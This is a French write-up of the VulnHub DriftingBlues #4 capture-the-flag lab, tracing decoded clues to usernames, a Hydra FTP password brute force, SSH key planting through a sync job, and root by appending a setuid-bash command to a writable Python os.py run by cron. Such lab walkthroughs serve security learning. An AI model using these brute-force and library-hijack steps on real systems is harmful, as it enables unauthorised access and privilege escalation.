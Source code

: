 ```yaml
---
title: Solution du CTF DriftingBlues #4 de VulnHub
tags: [CTF, VulnHub]
---
```


Quatrième Dimension
-------------------

[Ce CTF](https://www.vulnhub.com/entry/driftingblues-4,661/), 4ème du nom est un boot2root décrit comme facile. Il a été créé par [tasiyanci](https://twitter.com/tasiyanci).  

```plain
Nmap scan report for 192.168.56.9 
Host is up (0.00028s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Le serveur ProFTPD ne fournit pas sa version et ne supporte pas les connexions anonymes. On verra si on peut l'utiliser plus tard.  

Sur la page web on peut lire *Under Construction, please stand by* mais en commentaire dans la source HTML se trouve un base 64. Le résultat contient lui même du base64. Pour réduire je met les différents résultats obtenus :  

```plain
go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==

tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=

i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=

/imfuckingmad.txt
```

Le dernier path correspond à un fichier sur le serveur web qui semble contenir du code [BrainFuck](https://en.wikipedia.org/wiki/Brainfuck). Une nouvelle fois [dcode.fr](https://www.dcode.fr/brainfuck-language) dispose d'un interpréteur. L'output obtenu est le suivant :  

```plain
man we are a tech company and still getting hacked??? what the shit??? enough is enough!!! 
#
##
--- snip ---
##
#

/iTiS3Cr3TbiTCh.png
```

Ce path correspond à une image d'un code QR. J'ai trouvé [ce décodeur en ligne](https://blog.qr4.nl/Online-QR-Code-Decoder.aspx) qui m'a craché le texte <https://i.imgur.com/a4JjS76.png>.  

Passons sur le caractère risqué de laisser une partie d'un CTF aux mains d'un site dont la survie n'est pas assurée... L'image contient le texte suivant :  

```plain
drifting blues tech confidental

dear:

luther
******
gary
hubert
clark
******

please fix our website soon
```

Gimme a S, Gimme a H,...
------------------------

Armé de ces noms d'utilisateurs on se dit qu'on pourrait bruteforcer le service SSH, mais non d'après Hydra :  

```plain
[ERROR] target ssh://192.168.56.9:22/ does not support password authentication (method reply 4)
```

C'est là que FTP entre en jeu. Je récupère la [probable wordlist](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords) *Top12Thousand-probable-v2.txt* et je l'utilise comme candidats de passwords pour THC-Hydra (il faut compter une bonne demi heure) :  

```plain
$ hydra -L users.txt -P Top12Thousand-probable-v2.txt ftp://192.168.56.9
--- snip ---
[21][ftp] host: 192.168.56.9   login: hubert   password: john316 
1 of 1 target successfully completed, 1 valid password found
```

Gotcha ! Une fois connecté sur le FTP je remarque un dossier *hubert* vide ainsi qu'un fichier *sync\_log* dont voici le contenu :  

```plain
sync completed at Thu 20 Jan 2022 07:06:01 AM CST
```

Si on attend un peu on remarque que la date indiquée est mise à jour.  

Le message indique qu'une synchronisation a lieu et comme le dossier correspond au nom d'utilisateur on peut imaginer que les fichiers que l'on pose seront copiés sous */home/hubert*.  

Ni une ni deux je crée un dossier .ssh puis je copie ma clé publique SSH sous le nom *authorized\_keys*. Ça fonctionne !  

```plain
$ ssh hubert@192.168.56.9 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
hubert@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

```

This is not a test of the emergency broadcast system, this is a real thing!
---------------------------------------------------------------------------

Dans le dossier de l'utilisateur se trouve un fichier Python :  

```plain
-rwxr-xr-x 1 root root 217 Jan  9  2021 emergency.py
```

Son contenu :  

```python
#!/usr/bin/python 

import os 

os.system('echo 1 >> /tmp/backdoor_testing') 

# template python script for backdoor purposes 
# i'm gonna leave it with loose permissions 
#  
--- snip ---
# 
# say africa without a's
```

Il y a bien un fichier */tmp/backdoor\_testing* appartenant à root et son timestamp change régulièrement, preuve qu'une tache planifiée exécute le script Python.  

Pour que l'exploitation fonctionne il faudrait pouvoir modifier le module *os* de Python et ça tombe bien :  

```plain
hubert@driftingblues:~$ find /usr/ -writable 2> /dev/null  
/usr/lib/python2.7/os.py
```

J'ai seulement ajouté cette ligne à la fin du fichier :  

```python
system("cp /bin/bash /tmp/g0tr00t; chmod 4755 /tmp/g0tr00t")
```

Ça fait le job :  

```plain
hubert@driftingblues:~$ /tmp/g0tr00t -p 
g0tr00t-5.0# cd /root 
g0tr00t-5.0# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Sous le capot
-------------

```plain
g0tr00t-5.0# tail -3 /var/spool/cron/crontabs/root
SHELL=/bin/bash
* * * * * bash /root/sync
* * * * * python /home/hubert/emergency.py
g0tr00t-5.0# cat /root/sync
#!/bin/bash

omega=$(date)
#sleep 69
rm -rf /home/*/.local /home/*/.bashrc /home/*/.bash_history /home/*/.profie
cp -R /var/driftingblues_ftp/hubert /home/
echo "" > /home/hubert/.bash_history
echo "" > /home/hubert/.bashrc
chmod -R 700 /home/hubert
chown -R hubert:hubert /home/hubert
chown root:root /home/hubert/emergency.py
chmod 755 /home/hubert/emergency.py
echo "sync completed at $omega" > /var/driftingblues_ftp/sync_log
exit
```

That's it!

*Published January 20 2022 at 18:10*
